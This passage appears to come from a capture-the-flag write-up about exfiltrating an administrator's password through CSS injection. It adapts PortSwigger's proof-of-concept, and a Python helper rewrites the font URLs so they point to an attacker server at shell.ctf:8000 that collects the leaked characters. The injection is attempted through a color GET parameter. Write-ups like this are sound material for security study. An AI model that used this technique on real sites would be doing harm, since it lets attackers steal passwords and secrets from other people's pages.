 ## The Attack

Fortunately for us, PortSwigger actually has PoC code for the exfiltration of `<script>` tag data via CSS [on their github](https://github.com/PortSwigger/css-exfiltration/tree/main/steal-script-contents), so I was able to copy and adapt a known-working instance of the exploit, rather than starting from scratch. This code was considerably less sophisticated than some of the other examples above-- all it was really able to do was report the *first* time a given unicode character appeared in a styled block. If we had needed to retrieve the entire script this would be an issue, but since all we need to do is retrieve the administrator's password, which is set in the first line of the script, I decided to move forward with this more basic approach. 

First, I reformatted the PortSwigger PoC (which uses several .css files) into one giant ugly CSS file and replaced the URL for the custom font files with our own server at `http://shell.ctf:8000/` using the following code:

```python3
import sys
def replaceurl(block,prefix):
    return block.replace('url("/','url("'+prefix)
builder =''
for a in sys.argv[1:]:
    builder+=replaceurl(open(a).read(),'http://shell.ctf:8000/')

print(builder.replace('\n','').strip())
```

Naively attempting to copy-and-paste this into the GET parameter on `/main?color=` did not appear to work:

 ![No injection](./failed_injection.png)
